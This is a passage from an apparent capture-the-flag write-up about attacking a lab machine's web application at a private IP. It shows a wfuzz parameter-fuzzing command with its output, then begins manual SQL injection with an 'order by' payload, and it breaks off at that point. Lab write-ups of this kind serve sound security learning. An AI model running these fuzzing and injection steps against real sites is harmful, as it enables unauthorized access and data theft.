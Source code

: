 Till now we have 3 login pages
- http://192.168.1.223/
- http://192.168.1.223/admin/
- http://192.168.1.223/admin/backup/

## Finding parameters
Now I tried to fuzz more parameter on each page using `wfuzz`. Here I used `SecLists/Discovery/Web-Content/burp-parameter-names.txt` wordlist to fuzz.
```
$wfuzz --hw 161 -w ~/wordlists/SecLists/Discovery/Web-Content/burp-parameter-names.txt -u http://192.168.1.223/admin/backup/?FUZZ=

Warning: Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.

********************************************************
* Wfuzz 2.4.5 - The Web Fuzzer                         *
********************************************************

Target: http://192.168.1.223/admin/backup/?FUZZ=
Total requests: 2588

===================================================================
ID           Response   Lines    Word     Chars       Payload        
===================================================================

000000001:   200        87 L     190 W    4560 Ch     "id"           

Total time: 5.490480
Processed Requests: 2588
Filtered Requests: 2587
Requests/sec.: 471.3613
```
Great, we found new parameter `id` on `http://192.168.1.223/admin/backup/?id=`.
When I open the url (http://192.168.1.223/admin/backup/?id=) in browser it shows the mysql error.

![mysql-error](/assets/img/m87/mysql-error.png)

# Sql Injection

Now I started to dump the data from server.
You can use sqlmap to dump the data, but here I dumped all data manually.

**i) Finding total number of COLUMNS used in sql query.**

To find out total number of columns in sql query I used `order by`. 
```
http://192.168.1.223/admin/backup/?id=99 or 1=2 order by 1
```
![m1](/assets/img/m87/m1.png)
